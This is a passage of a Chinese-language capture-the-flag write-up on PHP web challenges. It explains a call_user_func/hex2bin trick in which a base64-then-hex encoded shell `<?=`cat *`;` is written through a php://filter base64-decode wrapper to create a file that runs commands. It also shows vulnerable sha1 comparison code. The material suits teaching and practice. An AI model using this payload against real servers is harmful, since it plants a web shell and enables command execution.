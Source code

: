```php
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}
```

v1作为回调函数，s=v2的第三个字符后的字符串(012)：也就是执行函数v1(s)
然后将$str写入v3里

```php
GET：
?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php

POST：
v1=hex2bin
#访问1.php后查看源代码获得flag
```

ps：代码base64编码后再转为十六进制为全数字

故：

```
$a='<?=`cat *`;';
$b=base64_encode($a); // PD89YGNhdCAqYDs=
$c=bin2hex($b);     
// 等号在base64中只是起到填充的作用，不影响具体的数据内容，
// 输出5044383959474e6864434171594473
// 带e的话会被认为是科学计数法，可以通过is_numeric检测

// 因为substr的存在，需要在其前面加上两个数字，这随便加了2个1
// 即v2=115044383959474e6864434171594473
```

## 104、106-sha1

```php
# 104
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}

# 106
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}
```
